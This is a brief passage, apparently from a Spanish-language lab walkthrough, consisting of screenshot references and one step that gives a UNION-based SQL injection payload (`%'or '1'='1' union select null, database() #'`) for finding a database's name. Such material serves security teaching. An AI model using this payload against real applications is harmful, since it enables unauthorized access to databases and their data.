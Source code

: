 ![image3-1-1-5.png](images/image3-1-1-5.png)

- Usa el siguiente comando para determinar el nombre de la base de datos: `%'or '1'='1' union select null, database() #'`

![image3-1-1-6.png](images/image3-1-1-6.png)
